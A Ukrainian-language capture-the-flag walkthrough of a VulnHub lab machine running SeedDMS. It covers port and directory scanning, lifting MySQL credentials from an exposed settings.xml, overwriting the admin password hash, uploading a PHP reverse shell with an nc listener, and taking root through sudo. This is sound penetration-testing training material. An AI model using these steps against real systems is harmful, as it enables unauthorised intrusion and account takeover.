В цьому документі наведено розгорнуте пояснення до завдання **Capture the Flag (CTF)**, опубліковане на сайті **VulnHub**. Відповідно до наданої автором інформації, рівень складності цього CTF — **ЛЕГКИЙ-СЕРЕДНІЙ**, а мета — отримати **root-доступ** до цільової машини та знайти **файли-флаги**.  

Для проходження цього CTF необхідно володіти:
- **базовим знанням команд Linux**
- **розумінням мережевих сервісів**
- **навичками використання інструментів для тестування на проникнення**
- **базовим розумінням мов програмування (Python, PHP)**

Завантажити CTF можна [тут](https://www.vulnhub.com/).  
## ОБРАЗИ РІЗНІ, ПОТРІБНО З ГУГЛ ДРАЙВА ЗАВАНТАЖУВАТИ!

> ⚠️ **Примітка**: Для запуску всіх цих вразливих машин було використано **Oracle VirtualBox**. Для проходження CTF використано **Kali Linux** або  **ParrotOS** як атакуючу машину. Використані методики призначені **виключно для освітніх цілей**. <br>
**Відповідальность за їх застосування проти будь-яких інших цілей буде визначатись відповідно чинному законодавству.**  

---

## **Короткий огляд кроків вирішення CTF**

1. Отримати **IP-адресу цільової машини** (**netdiscover**).
2. Просканувати **відкриті порти цільової машини** (**nmap**).  
3. Перевірити **HTTP-сервіс** та знайти підказки.  
4. Дослідити **MySql** сервіс.
5. Отримати віддалений доступ.
6. Зробити підвищення привілеїв.
   

---

### 1. Отримання **IP-адресу цільової машини**

```sh
sudo netdiscover -r 10.0.2.0/24
```



Зверніть увагу, на MAC-адресу, маємо декілька, які починаються з **08:00:27**,
що означає, що це віртуальні машини VirtualBox.


### 2. Сканування **відкритих портів цільової машини**.


Можна зробити різними шляхами, наприклад:

```sh
nmap -sC -sV -p- -oN tcp_scan 10.0.2.17
```

Команда, яку варто детально розбирати на практиці:

**Загальне призначення**
Команда виконує:
✅ повне TCP-сканування всіх 65 535 портів
✅ визначення версій сервісів
✅ запуск стандартних NSE-скриптів
✅ збереження результатів у файл

Тобто це повноцінне первинне технічне розвідування цілі.

**Розбір кожного параметра**
*nmap*

У пентесті це перший етап Discovery / Enumeration.

*-sC* — Default Scripts Scan
🔹 Що означає:
Запускає стандартний набір NSE-скриптів (--script=default).
Це автоматизовані перевірки:
- банерів сервісів;
- анонімного доступу;
- простих вразливостей;
- SSL-сертифікатів;
- SMB, FTP, HTTP базових перевірок.

**Приклади:**

- http-title
- ftp-anon
- ssh-hostkey
- smb-os-discovery

**Навіщо:**
Швидко отримати максимум інформації без ручного аналізу.

**Ризики:**

- може бути помітно в логах;
- деякі скрипти «агресивні».

*-sV* — Service Version Detection
🔹 Що означає:
Визначає:

- який сервіс працює на порті;
- точну версію ПЗ;
- іноді ОС та бібліотеки.

**Приклад:**
```sh
80/tcp open  http    Apache httpd 2.4.41
3306/tcp open mysql   MySQL 5.7.29
```
**Навіщо:**
Версії → пошук експлойтів → Exploit-DB, CVE.

*-p-* — Scan All Ports
🔹 Що означає:
Сканує всі 65 535 TCP-портів, бо за замовчуванням Nmap сканує лише топ-1000 популярних портів.

**Приклад:**

- без *-p-*  можна пропустити нестандартний сервіс;
- з *-p-*  знайдеш бекдор, кастомні сервіси, CTF-пастки.

⚠️ Мінус:

- довше;
- гучніше для IDS/IPS.

*-oN tcp_scan* — Output Normal
🔹 Що означає:
Зберігає результат у файл у звичайному текстовому форматі.

**Навіщо:**

- зберігати лог;
- прикладати до звіту;
- аналізувати пізніше.


Отримуємо наступне:


Таким чином, в нас є інформація для подальшого дослідження вебвервісу та сервісу БД.


### 3. Дослідження вебсервера

У браузері відкриваємо http://10.0.2.17,  отримуємо:


Передивляємось, з чим маємо справу, виявляється, що це фрішна тулза для менеджерів проєктів.

Виявляємо доступні директорії:

**Детальний розбір команди**
```sh
gobuster dir -u http://10.0.2.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
```

Ця команда виконує брутфорс-перелік (enumeration) директорій і файлів на вебсервері.
**Мета:** знайти приховані URL-шляхи, файли, адмін-панелі, резервні копії, конфіги, аплоади тощо.

1. gobuster

Gobuster — це високошвидкісний інструмент для:

brute-force пошуку:
директорій,
файлів,
DNS-субдоменів,
vhost.

Він працює за принципом:

бере слово зі словника → підставляє в URL → відправляє HTTP-запит → аналізує відповідь сервера.

2. dir — режим роботи
gobuster dir

Означає використовувати режим directory / file brute forcing.

Gobuster має й інші режими:

dns — пошук субдоменів
vhost — virtual hosts
fuzz — fuzzing параметрів

У CTF і веб-пентесті найчастіше використовують саме dir.

3. **-u http://10.0.2.17**

Це цільовий URL, куди Gobuster відправляє запити.
Фактично він генерує:
```
http://10.0.2.17/admin
http://10.0.2.17/login
http://10.0.2.17/uploads
...
```

***Важливо** обовʼязково вказувати протокол (http:// або https://)
якщо сайт працює на нестандартному порту:

http://10.0.2.17:8080

4. -w — словник
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


Це файл зі списком слів (wordlist).

Приклад вмісту:
```
admin
backup
uploads
secret
test
old
api
dev
```

Gobuster по черзі підставляє кожне слово в URL.

**Чому саме "medium"?**

У Kali є три типи:

Wordlist	Розмір	Швидкість	Повнота
small	   ~10k	     швидко	     мало
medium	   ~220k	 баланс	  оптимально
large	~1M	        повільно	максимум

Для лабораторій і CTF — medium ідеальний.

5. -x php,html,txt,zip — розширення файлів
```
-x php,html,txt,zip
```
Означає додатково перевіряти файли з цими розширеннями.

Gobuster буде генерувати:
```
admin
admin.php
admin.html
admin.txt
admin.zip

backup
backup.php
backup.html
backup.txt
backup.zip
```
**Навіщо це потрібно?**

Бо сервер може не показувати каталог,
але файл може існувати:

backup.zip
config.php
db.txt

Це часто приводить до:

витоку конфігів,
паролів,
дампів БД,
резервних копій.

6. Як виглядає процес реально

Gobuster робить приблизно так:

GET /admin        → 404
GET /admin.php    → 200 ✅
GET /backup.zip   → 200 ✅
GET /test         → 403


І виводить тільки цікаві відповіді:

/admin.php (Status: 200)
/backup.zip (Status: 200)

7. Типові HTTP-коди у результатах
Код	Значення	Що означає
200	OK	Файл/директорія існує
301 / 302	Redirect	Можлива реальна сторінка
403	Forbidden	Існує, але доступ заборонений
404	Not Found	Не існує
403 — часто дуже цінний результат.

8. Типові помилки 

❌ Забули -x

- знаходять тільки каталоги, але не файли.

❌ Використали занадто великий словник
- сканування триває годинами.

❌ Не врахували нестандартний порт
- http://10.0.2.17:8080

❌ Сервер повертає fake 200
Деякі сайти на всі запити повертають 200.
Треба використовувати:
**--exclude-length**


За декілька хвилин отримуємо наступний результат:



Існує декілька варіантів для подальших досліджень, то почнемо.

---

## 🔍 Дослідження SeedDMS та експлуатація

Ця сторінка не надає багато інформації, але перегляд **вихідного коду сторінки (page source)** дозволяє побачити JavaScript-файли, зокрема **main.js**, який містить посилання на директорію:

Після відкриття файлу **main.js** можна побачити шлях:
**/seeddms51x/seeddms-5.1.22/**

Перехід за цим шляхом приводить до **панелі входу SeedDMS**.


---

## Дослідження SeedDMS

Було випробувано стандартні облікові дані:

* `admin:admin`
* `admin:password`

Жодна з комбінацій не спрацювала.

Пошук в інтернеті вразливостей SeedDMS показав можливість **віддаленого виконання команд (Remote Command Execution, RCE)**, але для її експлуатації потрібна автентифікація.

На цьому етапі здавалося, що немає очевидного шляху подальших дій.

---

## 🔎 Повторне сканування директорій

Було повторно запущено **gobuster** для каталогу `/seeddms51x/`:

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.0.2.17/seeddms51x/
```

У результаті було виявлено директорію:

```
/conf/
```

Вона доступна за адресою:

```
http://10.0.2.17/seeddms51x/conf/
```

---

## 📁 Аналіз структури конфігураційних файлів

Подальше дослідження структури коду SeedDMS (за допомогою [SeedDMS source code – conf directory](https://sourceforge.net/p/seeddms/code/ci/master/)
) дозволило отримати уявлення про розташування конфігураційних файлів.

Після ідентифікації директорії `/conf` за допомогою **gobuster** та переходу в неї було виявлено декілька конфігураційних файлів, які дають краще розуміння файлової структури SeedDMS.



Серед них знаходиться файл:

```
settings.xml.template
```

розташований у директорії `/conf`.

Цей файл є **шаблоном основного конфігураційного файлу**, який має назву:

```
settings.xml
```

Перейшовши за адресою:

```
http://10.0.2.17/seeddms51x/conf/settings.xml
```

можна отримати файл **settings.xml**, який містить важливі конфігураційні параметри.

---

## 🔐 Отримання облікових даних MySQL



Під час аналізу файлу `settings.xml` було виявлено облікові дані MySQL:

* **Користувач:** `seeddms`
* **Пароль:** `seeddms`

---

## Крок 3: Перелік (Enumeration) MySQL

Для підключення до бази даних було використано команду:

```bash
mysql -u seeddms -p -h 10.0.2.17 --ssl=0 
```

> ⚠️ Параметр `--ssl=0` використовується у разі виникнення помилки TLS/SSL.

Після підключення виконуємо команду:

```sql
SHOW DATABASES;
```



Серед доступних баз даних особливий інтерес викликала база:

```
seeddms
```

У цій базі були виявлені таблиці:


```sql
SELECT * FROM users;
SELECT * FROM tblUsers;
```

---

### 📋 Аналіз таблиці users

```sql
SELECT * FROM users;
```

У таблиці було знайдено облікові дані користувача:

* **Користувач:** `saket`
* **Пароль:** `Saket@#$1337`

Спроба увійти з цими даними була невдалою.

---

### 📋 Аналіз таблиці tblUsers

```sql
SELECT * FROM tblUsers;
```

У цій таблиці було знайдено облікові дані користувача **admin**, але пароль збережений у вигляді **хешу**:

```
f9ef2c539bad8a6d2f3432b6d49ab51a
```

Було визначено, що це хеш типу **MD5**.
Спроби розшифрувати його через онлайн-сервіси не дали результату.

Замість підбору хешу було використано інший підхід:
створено власний MD5-хеш для відомого пароля та безпосередньо підмінено значення у базі даних.

---

### Заміна пароля адміністратора

Наприклад, MD5-хеш для слова `admin`:
```
21232f297a57a5a743894a0e4a801fc3
```


Команда для оновлення пароля:

```sql
UPDATE tblUsers 
SET pwd='21232f297a57a5a743894a0e4a801fc3' 
WHERE login='admin';
```



Після цього вхід у систему під користувачем **admin** з паролем **admin** став успішним.

---

##  Крок 4: Експлуатація Remote Command Execution

Після успішної автентифікації повертаємось до знайденого експлойту.
Використовуючи авторизовану сесію, було завантажено **PHP reverse shell**.

### Кроки:

1. Завантаження реверс-шеллу:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```


2. Модифікація параметрів `$ip` та `$port` відповідно до машини атакуючого.




3. Завантаження файлу через розділ **Add Document** у SeedDMS.



4. Після завантаження, навівши курсор на файл, у нижньому лівому куті браузера видно шлях до файлу.
   З цього посилання визначається **ID документа** (у нашому випадку  `4`).
   **http://10.0.2.17/seeddms51x/seeddms-5.1.22/out/out.ViewDocument.php?documentid=4&showtree=1**


5. Запуск **nc** та слухаємо порт **3421**:

```bash
nc -lnvp 3421
```

6. Виконання шеллу:

```
http://10.0.2.17/seeddms51x/data/1048576/9/1.php
```

Чому номер блоку саме **1048576**
- Це вже внутрішній параметр SeedDMS.
- SeedDMS зберігає файли в каталогах, розбитих за розміром блоку зберігання.

**Каталог 1048576** — це логічний зсув директорій (contentOffsetDir), який SeedDMS використовує для побудови внутрішньої структури зберігання файлів.
Він не пов'язаний із розміром файлів або блоків пам’яті.
Значення задається в конфігурації і використовується як стартова директорія.

Цей параметр:
- задається в конфігурації (settings.xml);
- рідко змінюється;
- практично завжди дорівнює *1048576*.

[Посилання на офіційну документацію:](https://sourceforge.net/p/seeddms/code/ci/seeddms-5.1.x/tree/conf/settings.xml.template)



7. Отримано shell з обмеженими правами користувача **www-data**.


> ⚠️ Отриманий shell нестабільний. Для покращення інтерактивності рекомендується оновити його до повноцінного терміналу.
```sh
python -c "import pty; pty.spawn('/bin/bash')"
```
Немає пайтона :-), користуємось тим, що є:
```sh
script -qc /bin/bash /dev/null
```
---

## ⬆️ Підвищення привілеїв

Перевірка домашніх каталогів:

```bash
ls /home
```

Виявлено користувача `saket`, але доступ обмежений.
![saket_denied]./HackMePlease/(image-24.png)
Оскільки облікові дані вже відомі (`saket:Saket@#$1337`), виконуємо:

```bash
su saket
```

Перевірка sudo-привілеїв:

```bash
sudo -l
```


Виявилося, що користувач `saket` має **повні sudo-права без пароля**, що дозволяє виконувати будь-які команди від імені root.

Отримання root-доступу:

```bash
sudo /bin/sh
```

---

##  Root-доступ отримано, вітання! 




